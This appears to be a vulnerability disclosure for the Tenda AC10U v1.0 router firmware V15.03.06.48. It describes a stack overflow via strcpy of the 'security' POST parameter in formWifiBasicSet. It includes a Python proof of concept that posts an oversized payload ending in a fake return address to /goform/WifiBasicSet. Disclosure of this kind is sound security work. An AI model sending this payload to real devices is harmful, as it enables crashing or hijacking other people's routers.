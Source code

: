 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.48 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `security` variable receives the `security` parameter from a POST request and is later assigned to the `param` variable, which is fixed at 256 bytes. However, since the user can control the input of `security`, the statement `strcpy(param, security);` can cause a buffer overflow. The user-provided `security` can exceed the capacity of the `param` array, triggering this security vulnerability.

![image-20240309195441696](formWifiBasicSet_security.assets/image-20240309195441696.png)

![image-20240309195419761](formWifiBasicSet_security.assets/image-20240309195419761.png)

![image-20240309195402169](formWifiBasicSet_security.assets/image-20240309195402169.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':'1', 
    'hideSsid':'1', 
    'ssid':'1',
    'security':payload, 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](formWifiBasicSet_security.assets/image-20240304213056127.png)
